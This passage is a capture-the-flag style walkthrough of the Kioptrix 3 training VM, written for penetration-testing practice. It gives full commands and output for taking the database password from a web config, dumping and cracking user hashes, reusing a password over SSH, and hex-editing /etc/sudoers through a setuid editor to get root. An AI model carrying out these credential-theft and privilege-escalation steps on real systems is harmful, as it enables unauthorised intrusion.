\nwhich ht\n/usr/local/bin/ht\n\nls -l /usr/local/bin/ht\n-rwsr-sr-x 1 root root 2072344 Apr 16 2011 /usr/local/bin/ht\n\nht --version\nht 2.0.18 (POSIX) 07:26:02 on Apr 16 2011\n(c) 1999-2004 Stefan Weyergraf\n(c) 1999-2009 Sebastian Biallas <sb@biallas.net>\nFirst, we notice the file is owned by root and has the SUID bit set along with word-executable permissions. This means that anyone can run this executable file and when they do, it will assume the effective UID of root (0). Given that this appears to be an editor, I think we have found our way in.
\nht /etc/shadow\n\npython -c \'import pty; pty.spawn("/bin/sh")\'\n\n$ ht /etc/shadow\nht /etc/shadow\nError opening terminal: unknown.\n\n$ export TERM=xterm\nexport TERM=xterm\n\n$ ht /etc/shadow\nht /etc/shadow\nsave_systemconfig(): error: I/O error: Permission denied\n\nsudo -l\n[sudo] password for www-data: \n\nDamn, we can\'t catch a break. First, we have trouble running ht in our reverse shell. Then, once we get past that problem, we run in to permissions issues as the www-data user. I get the feeling we are supposed to be the loneferret user to take advantage of the ht privilege escalation. Let\'s keep enumerating and see what we can find.
\n(Update: After completing more of this post realized that the permissions issue is actually related to how ht handles the setuid / setgid vs the permissions on /etc/shadow. If we wanted to, we could have escalate privileges to root using the www-data user.)
\nLocal Enumeration Pt. 2
\nWe have a shell as the www-data user, which means we should have full control of the web application that we compromised. We didn\'t spend too much time enumerating the web app before we found the PHP exploit, so it\'s possible there is other functionality at play. We now have the advantage of auditing the web app from the inside.
\nOn a hunch, let\'s try for a quick and easy win:
\n$ pwd\npwd\n/home/www/kioptrix3.com\n$ \n\n$ ls -l\nls -l\ntotal 84\ndrwxrwxrwx 2 root root 4096 Apr 15 2011 cache\ndrwxrwxrwx 8 root root 4096 Apr 14 2011 core\ndrwxrwxrwx 8 root root 4096 Apr 14 2011 data\n-rw-r--r-- 1 root root 23126 Jun 5 2009 favicon.ico\ndrwxr-xr-x 7 root root 4096 Apr 14 2011 gallery\n-rw-r--r-- 1 root root 26430 Jan 21 2007 gnu-lgpl.txt\n-rw-r--r-- 1 root root 399 Feb 23 2011 index.php\ndrwxrwxrwx 10 root root 4096 Apr 14 2011 modules\ndrwxrwxrwx 3 root root 4096 Apr 14 2011 style\n-rw-r--r-- 1 root root 243 Aug 5 2010 update.php\n\n$ grep password ./*\ngrep password ./*\n\n$ grep password ./*/*\ngrep password ./*/*\n./gallery/db.sql: `password` varchar(100) NOT NULL default \'\',\n./gallery/gconfig.php: $GLOBALS["gallarific_mysql_password"] = "fuckeyou";\n[... snip ...]\n\n$ grep gallarific_mysql ./*/*\ngrep gallarific_mysql ./*/*\n./gallery/gconfig.php: $GLOBALS["gallarific_mysql_server"] = "localhost";\n./gallery/gconfig.php: $GLOBALS["gallarific_mysql_database"] = "gallery";\n./gallery/gconfig.php: $GLOBALS["gallarific_mysql_username"] = "root";\n./gallery/gconfig.php: $GLOBALS["gallarific_mysql_password"] = "fuckeyou";\n[... snip ...]\nHmm, that seems helpful. Let\'s see what is stored in the DB:
\n$ mysql -u root -p\nmysql -u root -p\nEnter password: fuckeyou\n\nWelcome to the MySQL monitor. Commands end with ; or \\g.\nYour MySQL connection id is 212\nServer version: 5.0.51a-3ubuntu5.4 (Ubuntu)\n\nType \'help;\' or \'\\h\' for help. Type \'\\c\' to clear the buffer.\n\nmysql> show databases;\nshow databases;\n+--------------------+\n| Database |\n+--------------------+\n| information_schema | \n| gallery | \n| mysql | \n+--------------------+\n3 rows in set (0.00 sec)\n\nmysql> use gallery;\nuse gallery;\nReading table information for completion of table and column names\nYou can turn off this feature to get a quicker startup with -A\n\nDatabase changed\nmysql> show tables;\nshow tables;\n+----------------------+\n| Tables_in_gallery |\n+----------------------+\n| dev_accounts | \n| gallarific_comments | \n| gallarific_galleries | \n| gallarific_photos | \n| gallarific_settings | \n| gallarific_stats | \n| gallarific_users | \n+----------------------+\n7 rows in set (0.00 sec)\n\nmysql> select * from dev_accounts;\nselect * from dev_accounts;\n+----+------------+----------------------------------+\n| id | username | password |\n+----+------------+----------------------------------+\n| 1 | dreg | 0d3eccfb887aabd50f243b3f155c0f85 | \n| 2 | loneferret | 5badcaf789d3d1d09794d8f021f40f0e | \n+----+------------+----------------------------------+\n2 rows in set (0.00 sec)\n\nmysql> select * from gallarific_users;\nselect * from gallarific_users;\n+--------+----------+----------+-----------+-----------+----------+-------+------------+---------+-------------+-------+----------+\n| userid | username | password | usertype | firstname | lastname | email | datejoined | website | issuperuser | photo | joincode |\n+--------+----------+----------+-----------+-----------+----------+-------+------------+---------+-------------+-------+----------+\n| 1 | admin | n0t7t1k4 | superuser | Super | User | | 1302628616 | | 1 | | | \n+--------+----------+----------+-----------+-----------+----------+-------+------------+---------+-------------+-------+----------+\n1 row in set (0.00 sec)\nMost interesting here is the password hash for loneferret in the dev_accounts table. Users are known to reuse passwords, so if we can crack this hash, we may be able to use the password to SSH to the target as the loneferret user.
\nPassword Hash Cracking
\nInstead of cracking locally, let\'s see if any of the online hash-crackers can help us:
\n
Awesome, CrackStation was able to easily crack loneferret\'s password.
\nBecoming loneferret
\nWe now have the lonferret user\'s Gallerific web application password, but that doesn\'t seem to help us much in getting root on the box. However, maybe the user reused the same password for his local account on the server. Let\'s find out:
\nroot@kali:~# ssh loneferret@172.16.2.132\nloneferret@172.16.2.132\'s password: [starwars]\nLinux Kioptrix3 2.6.24-24-server #1 SMP Tue Jul 7 20:21:17 UTC 2009 i686\n[... snip ...]\nloneferret@Kioptrix3:~$ whoami\nloneferret\n\nloneferret@Kioptrix3:~$ id\nuid=1000(loneferret) gid=100(users) groups=100(users)\n\nloneferret@Kioptrix3:~$ sudo -l\nUser loneferret may run the following commands on this host:\n (root) NOPASSWD: !/usr/bin/su\n (root) NOPASSWD: /usr/local/bin/ht\nVery nice, loneferret did in fact reuse his password so we are able to SSH to the server using his accounnt. This is an example of why password reuse is bad.
\nWe can also see that loneferret is able to run the ht application as root using the sudo command, but cannot run anything else using sudo. If you remember what we found out about the ht program earlier, you will recognize that being able to run ht as root via sudo is somewhat moot, as the file is world-executable, is owned by root, and has the setuid bit turned on. This means running when we execute ht, even without sudo, the program will be running as root. There are some cases where sudo ht will let us edit files ht can\'t but either way will get us root.
\nGetting root
\nSince ht is an editor and we are able to use it to edit any file as root, we have a lot of options here for privilege escalation. We can now access /etc/shadow by running sudo ht /etc/shadow, but let\'s try something else instead. We will go after sudo itself.
From our enumeration, we know there are entries in the /etc/sudoers for the loneferret user. To get root, we will update /etc/sudoers to allow us to run everything with sudo, including su (i.e. sudo su -).
Let\'s edit the file:
\nloneferret@Kioptrix3:~$ ls -l /etc/sudoers\n-r--r----- 1 root root 614 2017-09-10 20:29 /etc/sudoers\n\nloneferret@Kioptrix3:~$ cat /etc/sudoers\ncat: /etc/sudoers: Permission denied\n\nloneferret@Kioptrix3:~$ ht /etc/sudoers\nError opening terminal: xterm-256color.\n\nloneferret@Kioptrix3:~$ export TERM=xterm\nloneferret@Kioptrix3:~$ ht /etc/sudoers\n\nloneferret@Kioptrix3:~$ ht /etc/sudoers\nEven though we shouldn\'t have permission to read the sudoers file, using the setuid / setgid ht executable, we are able to load the file.
\n
Now let\'s do some hex patching. We want to change
\n\xe2\x94\x8200000130 65 66 65 72 72 65 74 20-41 4c 4c 3d 4e 4f 50 41 |eferret ALL=NOPA|\xe2\x94\x82\n\xe2\x94\x8200000140 53 53 57 44 3a 20 21 2f-75 73 72 2f 62 69 6e 2f |SSWD: !/usr/bin/|\xe2\x94\x82\n\xe2\x94\x8200000150 73 75 2c 20 2f 75 73 72-2f 6c 6f 63 61 6c 2f 62 |su, /usr/local/b|\xe2\x94\x82\n\xe2\x94\x8200000160 69 6e 2f 68 74 0a 0a 23-20 55 6e 63 6f 6d 6d 65 |in/ht??# Uncomme||\nloneferret ALL=NOPASSWD: !/usr/bin/su, /usr/local/bin/ht
to
\n\xe2\x94\x8200000130 65 66 65 72 72 65 74 20-41 4c 4c 3d 28 41 4c 4c |eferret ALL=(ALL|\xe2\x94\x82\n\xe2\x94\x8200000140 29 20 41 4c 4c 0a 23 2f-75 73 72 2f 62 69 6e 2f |) ALL?#/usr/bin/|\xe2\x94\x82\n\xe2\x94\x8200000150 73 75 2c 20 2f 75 73 72-2f 6c 6f 63 61 6c 2f 62 |su, /usr/local/b|\xe2\x94\x82\n\xe2\x94\x8200000160 69 6e 2f 68 74 0a 0a 23-20 55 6e 63 6f 6d 6d 65 |in/ht??# Uncomme|\xe2\x94\x82\nloneferret ALL=(ALL) ALL
\n#/usr/bin/su, /usr/local/bin/ht
This will effectively give us full, root access to the target, as we will be able to run any command as root using sudo.
\nLet\'s make the change and save the file using ht:
\n
After saving the file, let\'s see if we win:
\nloneferret@Kioptrix3:~$ sudo -l\n[sudo] password for loneferret: \nUser loneferret may run the following commands on this host:\n (ALL) ALL\n\nloneferret@Kioptrix3:~$ sudo su -\n\nroot@Kioptrix3:~# whoami\nroot\n\nroot@Kioptrix3:~# id\nuid=0(root) gid=0(root) groups=0(root)\nroot@Kioptrix3:~# \nWoot, woot! There is is, we have a root shell on our target!
\nEnumerating Goodies
\nNow that we are root, let\'s see what we can find on the box:
\nroot@Kioptrix3:~# cd /root\n\nroot@Kioptrix3:~# ls -l\ntotal 16\n-rw-r--r-- 1 root root 1327 2011-04-16 08:13 Congrats.txt\ndrwxr-xr-x 12 root root 12288 2011-04-16 07:26 ht-2.0.18\n\nroot@Kioptrix3:~# cat Congrats.txt \nGood for you for getting here.\nRegardless of the matter (staying within the spirit of the game of course)\nyou got here, congratulations are in order. Wasn\'t that bad now was it.\n\nWent in a different direction with this VM. Exploit based challenges are\nnice. Helps workout that information gathering part, but sometimes we\nneed to get our hands dirty in other things as well.\nAgain, these VMs are beginner and not intented for everyone. \nDifficulty is relative, keep that in mind.\n\nThe object is to learn, do some research and have a little (legal)\nfun in the process.\n\n\nI hope you enjoyed this third challenge.\n\nSteven McElrea\naka loneferret\nhttp://www.kioptrix.com\n\n\nCredit needs to be given to the creators of the gallery webapp and CMS used\nfor the building of the Kioptrix VM3 site.\n\nMain page CMS: \nhttp://www.lotuscms.org\n\nGallery application: \nGallarific 2.1 - Free Version released October 10, 2009\nhttp://www.gallarific.com\nVulnerable version of this application can be downloaded\nfrom the Exploit-DB website:\nhttp://www.exploit-db.com/exploits/15891/\n\nThe HT Editor can be found here:\nhttp://hte.sourceforge.net/downloads.html\nAnd the vulnerable version on Exploit-DB here:\nhttp://www.exploit-db.com/exploits/17083/\n\n\nAlso, all pictures were taken from Google Images, so being part of the\npublic domain I used them.\nConclusion
\nWell, that\'s it for this challenge. However, looking back on where we ended up, I am almost certain there are other ways to crack this VM. For example, I imagine there is a SQL injection I missed on the web application that would have led us to the loneferret password hash in the database without first exploiting the LotusCMS RCE vulnerability. I might go back and try to find this later. Alternatively if there was another way to find the loneferret username, an SSH brute force using the rockyou password list would have been successful:
\nroot@kali:~# grep ^starwars$ /usr/share/wordlists/rockyou.txt \nstarwars\nThis just goes to show, both on challenge VMs and real world servers, there is usually more than one way to pop the box.
\nUntil next time, stay root my friends!
\n\n